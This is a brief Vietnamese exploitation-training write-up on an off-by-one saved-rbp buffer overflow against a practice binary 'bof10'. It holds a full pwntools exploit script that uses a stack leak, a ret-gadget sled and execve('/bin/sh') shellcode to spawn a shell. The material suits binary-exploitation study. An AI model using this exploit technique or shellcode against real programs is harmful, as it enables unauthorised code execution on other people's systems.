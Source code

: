 # Buffer Overflow - Off By One

Khi ta có thể thay đổi giá trị của saved rbp, ta có thể thay đổi được luồng thực thi của chương trình và video hôm nay là một trường hợp đặc biệt thể hiện rõ nhất việc thay đổi luồng thực thi của chương trình. Khi ta có thể thay đổi một byte của địa chỉ saved rbp nhưng byte đó là một số cố định, chương trình lúc đó sẽ hoạt động sai đi và kết thúc với địa chỉ stack ngẫu nhiên giúp ta có thể khai thác chương trình.

***script:***

```
from pwn import *

p = process('./bof10')
exe = ELF(b'./bof10')

gdb.attach(p,gdbscript = '''
b*main+196
b*play_game+99

c
''')

input()

p.sendlineafter(b'name: ', b'A'*8)
p.recvuntil(b'I have a gift for you: ')
stack_leak = int(p.recvline()[:-1], 16)
log.info("Stack leak: " + hex(stack_leak))

shellcode = asm(
    '''
    mov rbx, 29400045130965551
    push rbx

    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
    ''', arch = 'amd64'
)

ret = 0x0000000000401357

payload = p64(ret) * 0x30
# payload += p64(0xdeadbeef)
payload += p64(stack_leak - 0x88)
payload += shellcode
payload = payload.ljust(512, b'A')

p.sendlineafter(b'Say something: ', payload)

p.interactive()
```
